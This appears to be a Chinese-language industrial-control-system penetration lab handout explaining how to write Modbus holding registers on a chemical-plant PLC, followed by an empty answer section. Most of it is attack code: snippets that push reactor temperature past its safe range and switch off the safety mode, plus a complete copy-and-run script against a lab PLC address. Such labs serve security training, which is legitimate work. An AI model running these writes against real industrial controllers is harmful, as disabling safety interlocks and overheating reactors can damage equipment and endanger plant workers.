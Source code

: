 # LAB 2 - 寫入暫存器遠端控制

## 滲透場景

經過 Lab 0 的資訊蒐集階段，你已經成功讀取了化工廠 PLC 的 Holding Registers，了解了當前的製程參數。現在是時候進入攻擊的第二階段：**主動控制**。

透過寫入 Holding Registers，你可以直接修改 PLC 的關鍵設定值，例如反應爐溫度上限、壓力閾值或安全模式狀態。這種攻擊手法在真實的工控入侵事件中極為常見，攻擊者可能會：
- 修改安全閾值導致設備過載
- 改變製程參數影響產品品質
- 觸發緊急停機造成生產中斷

## 寫入操作的危險性

與被動的讀取操作不同，寫入 Holding Registers 會直接影響工控系統的運作狀態：

| 風險等級 | 攻擊後果 | 實際影響 |
|----------|----------|----------|
| **高風險** | 修改安全參數 | 設備損壞、人員安全 |
| **中風險** | 調整製程設定 | 產品品質、生產效率 |
| **低風險** | 變更監控數值 | 資訊混淆、誤判 |

## 寫入操作實作

### 寫入單一 Holding Register
使用 write_single_register() 方法可以修改特定位址的暫存器值。此方法對應 Modbus Function Code 6：

```python
# 修改位址 0 的暫存器值為 850 (85.0°C)
result = client.write_single_register(0, 850, unit=1)
print(f"寫入結果: {result}")
```

### 批量寫入多個 Registers
write_multiple_registers() 方法允許一次寫入多個連續的暫存器，對應 Function Code 16，適合大量參數調整：

```python
# 一次寫入多個設定值
new_values = [800, 150, 1, 2500]  # 溫度、壓力、安全模式、轉速
result = client.write_multiple_registers(0, new_values, unit=1)
```

### 寫入前的安全檢查
在執行寫入前，建議先讀取當前值進行備份，以便必要時還原：

```python
# 備份原始值
original_values = client.read_holding_registers(0, 4, unit=1)
print(f"原始值: {original_values}")

# 執行寫入
client.write_single_register(0, 950, unit=1)
```

### 驗證寫入結果
寫入完成後應該讀取相同位址來確認操作是否成功：

```python
# 寫入新值
client.write_single_register(2, 0, unit=1)  # 關閉安全模式

# 驗證寫入結果
new_value = client.read_holding_registers(2, 1, unit=1)
if new_value[0] == 0:
    print("[+] 安全模式已成功關閉")
```

### 目標化攻擊範例
針對特定製程參數進行精確攻擊：

```python
# 危險操作：調高反應爐溫度到危險範圍
danger_temp = 1200  # 120.0°C (超過安全範圍)
client.write_single_register(0, danger_temp, unit=1)
print("[!] 警告：溫度設定已調整到危險範圍")
```

## 程式碼重點解析

| 關鍵函式 | 參數說明 | 攻擊效果 |
|----------|----------|----------|
| `write_single_register(0, 850, unit=1)` | 位址 0，寫入值 850，Unit ID 1 | 修改單一參數 |
| `write_multiple_registers(0, values, unit=1)` | 從位址 0 開始批量寫入 | 大規模參數調整 |
| `read_holding_registers(0, 1, unit=1)` | 驗證寫入結果 | 確認攻擊成功 |

## 滲透價值分析

透過寫入 Holding Registers，攻擊者可以：

- **直接控制**：即時修改設備運作參數
- **破壞性攻擊**：調整安全閾值造成設備損壞
- **隱蔽性操作**：微調參數影響產品品質而不易察覺

這種寫入攻擊是工控滲透中最具威脅性的手段，可能造成嚴重的安全事故和經濟損失。

## 完整程式碼範例

以下是完整的程式碼，可以直接複製執行：

```python
from modbus_tcp import ModbusTcpClient
import time

def main():
    # 目標 PLC 資訊
    target_ip = '192.168.56.1'
    target_port = 502
    
    print(f"[*] 連接目標 PLC: {target_ip}:{target_port}")
    
    try:
        # 建立 Modbus TCP 連線
        client = ModbusTcpClient(target_ip, target_port)
        client.open()
        print("[+] 連線建立成功")
        
        # 步驟 1: 讀取當前值作為備份
        print("\n[*] 讀取當前設定值...")
        original_values = client.read_holding_registers(0, 4, unit=1)
        print(f"[+] 原始值: {original_values}")
        
        # 步驟 2: 寫入新的設定值
        print("\n[*] 執行寫入攻擊...")
        
        # 危險操作：調高溫度設定
        new_temp = 1050  # 105.0°C
        result1 = client.write_single_register(0, new_temp, unit=1)
        print(f"[+] 溫度設定寫入: {'成功' if result1 else '失敗'}")
        
        # 批量修改多個參數
        new_settings = [1050, 200, 0, 3000]  # 溫度、壓力、安全模式、轉速
        result2 = client.write_multiple_registers(0, new_settings, unit=1)
        print(f"[+] 批量設定寫入: {'成功' if result2 else '失敗'}")
        
        # 步驟 3: 驗證寫入結果
        print("\n[*] 驗證寫入結果...")
        current_values = client.read_holding_registers(0, 4, unit=1)
        print(f"[+] 當前值: {current_values}")
        
        # 分析影響
        print("\n[!] 攻擊影響分析:")
        print(f"    溫度設定: {original_values[0]} -> {current_values[0]} °C")
        print(f"    壓力設定: {original_values[1]} -> {current_values[1]} bar")
        print(f"    安全模式: {'開啟' if original_values[2] else '關閉'} -> {'開啟' if current_values[2] else '關閉'}")
        print(f"    轉速設定: {original_values[3]} -> {current_values[3]} RPM")
        
        # 檢查危險狀況
        if current_values[0] > 1000:
            print("[!] 警告：溫度設定過高，可能造成設備損壞!")
        if current_values[2] == 0:
            print("[!] 警告：安全模式已關閉，系統處於危險狀態!")
            
        # 關閉連線
        client.close()
        print("\n[*] 連線已關閉")
        
    except Exception as e:
        print(f"[-] 發生錯誤: {e}")

if __name__ == "__main__":
    main()
```

將以上程式碼儲存為 `modbus_write.py`，然後執行：
```bash
python modbus_write.py
```

## 答題區